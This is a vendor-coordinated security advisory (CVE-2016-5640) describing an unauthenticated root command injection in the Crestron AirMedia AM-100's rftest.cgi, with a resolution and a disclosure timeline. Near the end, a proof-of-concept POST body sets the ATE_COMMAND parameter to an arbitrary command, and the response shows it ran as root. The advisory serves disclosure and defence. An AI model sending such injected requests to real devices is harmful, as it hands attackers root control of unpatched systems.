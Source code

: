 # [CLVA-2016-05-002]: Crestron AM-100 Command Injection Vulnerability

# Summary

Cylance identified a vulnerability in the Crestron AirMedia AM-100, which could allow an unauthenticated entity to execute arbitrary commands on affected devices. The unauthenticated must be able to access the web server on the affected devices.

## Product Description

The Crestron AirMedia AM-100 allows users to "wirelessly present PowerPoint®, Excel®, Word, and PDF documents, as well as photos, on the room display from their personal iOS® or Android™ mobile device" or desktop/laptop. (via [http://www.crestron.com/microsites/airmedia-mobile-wireless-hd-presentations](http://www.crestron.com/microsites/airmedia-mobile-wireless-hd-presentations)).

## Affected Products

* Crestron AirMedia AM-100 (firmware v1.1.1.11 - v1.2.1)

## Impact

An unauthenticated entity may be able to execute arbitrary commands on the affected AM-100 as superuser ("root").

# Vulnerability Information

* Cylance Identifier: CLVA-2016-05-002
* CVE Identifier: CVE-2016-5640

## Description

A command injection vulnerability exists in `rftest.cgi` on the AM-100 embedded web server. The `ATE_COMMAND` POST parameter specifies the path to a command for the underlying OS to execute. By default, the value of this parameter is `/sbin/iwpriv`; however, the value of this parameter can be a relative or absolute path to any arbitrary command on the underlying OS.

## Impact

Attackers may execute unauthorized commands, which could then be used to disable the software, or read and modify data for which the attacker does not have permissions to access directly. Additionally, as the embedded web server runs as root, subsequent commands/processes will also run as root, providing unfettered access to the system.

## Attack Scenario

An unauthenticated entity with access to the AM-100 embedded web server could send HTTP POST data to `rftest.cgi`, specifying any arbitrary command to be executed.

## Resolution

Crestron has released firmware version 1.4.0.13 to address this issue. Affected users should update the firmware of their AM-100 as soon as possible. Crestron partners can find the latest firmware at [http://www.crestron.com/products/model/AM-100](http://www.crestron.com/products/model/AM-100)

## Credit

* Zach Lanier, Director of Research, Cylance


## Additional Information
### Details for CLVA-2016-05-002

* Example of a benign/normal `POST` request body for `rftest.cgi`:

```
POST https://[AM-100-ADDRESS]/cgi-bin/rftest.cgi?lang=en&src=AwServicesSetup.html&[TOKEN] HTTP/1.1
...
ATE_COMMAND=%2Fsbin%2Fiwpriv+ra0+set+ATE%3DATESTART%3B%2Fsbin%2Fiwpriv+ra0+set+ATETXLEN%3D24%3B%2Fsbin%2Fiwpriv+ra0+set+ATE%3DTXCONT%3B&ATECHANNEL=&ATETXLEN=24&ATETXCNT=&ATETXMODE=&ATETXBW=&ATETXGI=&ATETXMCS=&ATETXANT=&ATERXANT=&ATERXFER=&ResetCounter=&ATEAUTOALC=&ATEIPG=&ATEPAYLOAD=&ATE=TXCONT
```

* Example of expected response:

```
HTTP/1.1 200 OK
Content-Type: text/html
Date: Wed, 26 Oct 2005 19:07:53 GMT
Server: lighttpd/1.4.35-devel-4f1e285

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="content-Type" content="text/html; charset=utf-8">
<meta http-equiv="Cache-control" content="no-cache">
<title>Crestron AirMedia</title>
...
```

* Example of malicious `POST` request body for `rftest.cgi`, specifying the `whoami` command for the `ATE_COMMAND` parameter:

```
ATE_COMMAND=whoami&ATECHANNEL=&ATETXLEN=24&ATETXCNT=&ATETXMODE=&ATETXBW=&ATETXGI=&ATETXMCS=&ATETXANT=&ATERXANT=&ATERXFER=&ResetCounter=&ATEAUTOALC=&ATEIPG=&ATEPAYLOAD=&ATE=TXCONT
```

* Response (note response contains `root`, indicating successful execution of `whoami`, as well as identifying that the web server runs as superuser):

```
HTTP/1.1 200 OK
Date: Wed, 26 Oct 2005 20:50:35 GMT
Server: lighttpd/1.4.35-devel-4f1e285
root

Content-Type: text/html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
... 
```

# CLVA-2016-05-002 Timeline

* Discovery Date: 2016-05-12
* Vendor Notification Date: 2016-05-19
* CERT/CC Contact Date: 2016-05-27
* Vendor Acknowledgement Date: 2016-06-06
* Patch Release Date: 2016-08-01
* Public Disclosure Date: 2016-08-01
